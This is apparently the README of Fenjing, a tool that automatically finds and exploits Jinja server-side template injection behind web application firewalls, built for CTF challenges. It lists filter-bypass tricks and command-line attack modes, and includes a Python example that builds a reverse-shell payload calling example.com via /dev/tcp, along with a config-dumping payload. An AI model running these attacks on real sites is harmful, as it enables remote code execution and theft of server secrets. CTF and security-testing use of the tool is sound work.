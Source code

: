 ![焚靖](assets/fenjing.webp)

> Bypass the WAF without knowing WAF

焚靖是一个针对CTF比赛中Jinja SSTI绕过WAF的全自动脚本，可以自动攻击给定的网站或接口。

## 演示

![demo](assets/demo.webp)

## 主要特性

- 集成了大部分CTF中的SSTI WAF绕过技巧
- 全自动扫描HTML页面中的form元素并进行攻击
- 全自动分析网站的WAF并生成相应的payload
- 方便的网页界面/命令行界面

## 快速上手

在以下方法中选择一种

### 使用pip安装运行

```shell
pip install fenjing
python -m fenjing webui
```

### 下载并运行docker镜像

```shell
docker pull marven11/fenjing
docker run --net host -it marven11/fenjing webui
```

### 手动安装

```shell
git clone https://github.com/Marven11/Fenjing
cd Fenjing
python -m pip install -r requirements.txt
python -m fenjing webui
```

### 手动构建Docker镜像

```shell
docker build -t fenjing .
docker run -it --net host fenjing webui
```

## 特性

支持绕过：

- `'`和`"`
- 绝大多数敏感关键字
- 任意阿拉伯数字
- `_`
- `[`
- `+`
- `-`
- `~`
- `{{`

### 自然数绕过：

支持绕过0-9的同时绕过加号或减号

支持全角数字和特定数字相加减两种绕过方式

### `'%c'`绕过:

支持绕过引号，`g`和`lipsum`

### 下划线绕过：

支持`(lipsum|escape|batch(22)|list|first|last)`
- 其中的数字22支持上面的数字绕过

### 任意字符串：

支持绕过引号，任意字符串拼接符号，下划线和任意关键词

支持以下形式

- `'str'`
- `"str"`
- `"\x61\x61\x61"`
- `dict(__class__=cycler)|join`
    - 其中的下划线支持绕过
- `'%c'*3%(97,97, 97)`
    - 其中的`'%c'`也支持上面的`'%c'`绕过
    - 其中的所有数字都支持上面的数字绕过

### 属性：

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `|attr('aaa')`
    - 其中的字符串也支持上面的任意字符串绕过

### Item

- `['aaa']`
    - 其中的字符串支持上面的任意字符串绕过
- `.aaa`
- `.__getitem__('aaa')`
    - 其中的`__getitem__`支持上面的属性绕过
    - 其中的字符串也支持上面的任意字符串绕过


## 详细使用

### 作为命令行脚本使用

- webui: 网页UI
  - 顾名思义，网页UI
  - 默认端口14514
- scan: 扫描整个网站
  - 从网站中根据form元素提取出所有的表单并攻击
  - 扫描成功后会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing scan --url 'http://xxx/'`
- crack: 对某个特定的表单进行攻击
  - 需要指定表单的url, action(GET或POST)以及所有字段(比如'name')
  - 攻击成功后也会提供一个模拟终端或执行给定的命令
  - 示例：`python -m fenjing crack --url 'http://xxx/' --method GET --inputs name`
- get-config: 对某个特定的表单进行攻击，但是只获取flask config
  - 参数大致上和crack相同
```
Usage: python -m fenjing scan [OPTIONS]

Options:
  -u, --url TEXT       需要扫描的URL
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing crack [OPTIONS]

Options:
  -u, --url TEXT       form所在的URL
  -a, --action TEXT    form的action，默认为当前路径
  -m, --method TEXT    form的提交方式，默认为POST
  -i, --inputs TEXT    form的参数，以逗号分隔
  -e, --exec-cmd TEXT  成功后执行的shell指令，不填则成功后进入交互模式
  --interval FLOAT     每次请求的间隔
  --user-agent TEXT    请求时使用的User Agent
  --help               Show this message and exit.

Usage: python -m fenjing get-config [OPTIONS]

  攻击指定的表单，并获得目标服务器的flask config

Options:
  -u, --url TEXT     form所在的URL
  -a, --action TEXT  form的action，默认为当前路径
  -m, --method TEXT  form的提交方式，默认为POST
  -i, --inputs TEXT  form的参数，以逗号分隔
  --interval FLOAT   每次请求的间隔
  --user-agent TEXT  请求时使用的User Agent
  --help             Show this message and exit.
```

### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

## 项目结构

[![](https://mermaid.ink/img/pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY?type=png)](https://mermaid.live/edit#pako:eNp1U01TwyAQ_SsMM-2p-QM5eHA86kU9aTqZLVkaRgKRD2vt9L8LwZQkrRwYeLzdfbyFE2W6QVpSLvWBtWAceb2vFAnD-t3eQN8S74S0JIFxMC21ET-YEYOfHq1DkyGuTTcNUdblbVqhapaVLJpCqJCIA8NpSSneOdiSQxEOO6FARmybGQfc-cjZRQ4XBrn-TuB2loYUxV3CLyLIQkWUbnPQakWakI85oRV5fpyUBF5zr1i9RzW_eM0MsI-pHZaBqr2Rt3lJ1FW6waCFuB6OUkMz0ZfFjZ2LI7hYf4GZ8GyLUtZ_8bPWcLG_xrnP7PkNb4LzNGQ9LzdccJlxAKf79UL15YGMfbv2djyZ-5vmocv_xC3cvyUvWk83tAvvDUQTvsgphlbUtdhhRcuwVOidAVnRSp0DFbzTL0fFaOmMxw31fQMOHwSE1nU0PExpA9qDetM677ERTpun9A2H33j-BR2iIbY)


